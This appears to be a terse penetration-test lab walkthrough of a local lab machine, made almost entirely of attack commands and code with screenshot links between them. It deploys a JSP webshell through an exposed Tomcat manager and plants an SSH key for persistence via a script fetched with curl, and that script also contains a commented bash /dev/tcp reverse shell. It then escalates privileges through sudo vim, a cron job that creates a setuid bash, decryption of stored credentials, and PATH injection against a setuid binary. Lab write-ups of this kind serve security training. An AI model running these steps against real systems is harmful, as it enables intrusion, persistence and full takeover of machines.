Deloitte
Recon web: axis

Local file inclusion axis

- 2.
2. access tomcat (exposed admin page)
Deploy webshell
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp
# When this file is uploaded to the manager GUI, the /backup application will be added to the table.
# Go to: http://tomcat-site.local:8180/backup/cmd.jsp

Persistence stable shell (tomcat)
I had trouble with reverse shell
## create a file shell.sh
#! /bin/bash
#bash -i >& /dev/tcp/192.168.56.1/443 0>&1
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDD3WfQPvIUJ1RdqysYupH894rAGwG4WEL10SJHR1xSS/wVuggL3M5QLtcaKl8qaTIB6Z6l9E6CNKpFkQTgK6z81NU8gEsoFG/pVvUo2kHrVu9zc/9HQ+nfrlbItVRZi/H8dgG3VN7UfG9i/jH96o1WQNClAKWk3NFwrhFBTxCChJmmARM8YYln6GspSS+GKUCT0rnJOroAv7ui8UjguFY17WhGi1VE5JoDHmMvMvUUY3eZenC5Jmh1cDcSRh+5UHHpxmYBUAxNdyh8ETtXBcsuOJeL7iz7R5liC7UQJPAJ5aGoBOIO9f+cc5Dt3SvUHN+GqRStyBhypzKg3CS0KGHL5S81LUhSKweIFcnOB9/krrKv3Vh11u0yBN4IJPcADALnEf/qerNsHIPCu3hfkWy5hjscjQPkzC7HOHjvt3mOkgMhD5Xzhe1DMTwB4WWHB9ZDbhHrF0JVZomY7AxC6tDhSD3e5Ez9tM/dMX+EPc2fQSf9+kDw9DthXp1oniuAQ20= yharrizi@yharrizi-Vostro-15-3510" >> /home/tomcat/.ssh/authorized_keys
yharrizi@yharrizi-Vostro-
## on web shell
curl 192.168.56.1/shell.sh -o shell.sh
chmod +x shell.sh
./shell.sh
## exploit
ssh -i id_rsa tomcat@192.168.56.118

Reverse shell alice
sudo -u alice /usr/bin/vim

Privesc BOb

cat /home/dev/django_migration/django_migration
md5 hash 2d5831578ea970d0cfa664ede08b5f3c

Privesc charles (excessive permissions: bob can replace the file
)
POst exploit replace testscript.py and wait for cron job to run
import os
def execute_whoami():
stream = os.popen('cp /usr/bin/bash /tmp/bash; chmod u+sx /tmp/bash')
output = stream.read()
return output
result = execute_whoami()
print(result)


cron job running of charles


Privesc David

pyc are cached files
- we have AES secrets key + IV
from hashlib import md5
from base64 import b64decode, b64encode
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
class AESCipher:
def __init__(self, key, iv):
self.key = md5(key.encode('utf8')).digest()
self.iv = md5(iv.encode('utf8')).digest()
def encrypt(self, data):
cipher = AES.new(self.key, AES.MODE_CBC, self.iv)
return b64encode(self.iv + cipher.encrypt(pad(data.encode('utf-8'), AES.block_size)))
def decrypt(self, enc):
enc = b64decode(enc)
iv = enc[:AES.block_size] # extract the IV from the beginning
cipher = AES.new(self.key, AES.MODE_CBC, iv)
return unpad(cipher.decrypt(enc[AES.block_size:]), AES.block_size).decode('utf-8')
# Assuming you have an instance of AESCipher
cred_encryptor = AESCipher('supersecrettestkey', 'testiv')
# Assuming you have some encrypted data to decrypt.
encrypted_data = 'OPh7C5tzYWC/wMvYRHr27gJYHbXY1Cff2PACsEKekLY9iimtb+SV/W7txK28+4KbEm6xr5grNAnqxLwHnIPlyg==' # Replace with your encrypted data
decrypted_data = cred_encryptor.decrypt(encrypted_data)
print(decrypted_data)


4e238b76533c1f8bac248c67de0892e2
Privesc root

the file is setuid
- ghidra decompile
- the file is calling ls without full path => we can exploit it via PATH injection
export PATH="/tmp/bin":/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
## write a sh
#! /bin/bash
cp /usr/bin/bash /tmp/root; chmod u+sx /tmp/root
# put it as /tmp/bin/ls
## trigger
/usr/bin/infoproc

resource :
- https://blog.creekorful.org/2020/09/setuid-privilege-escalation/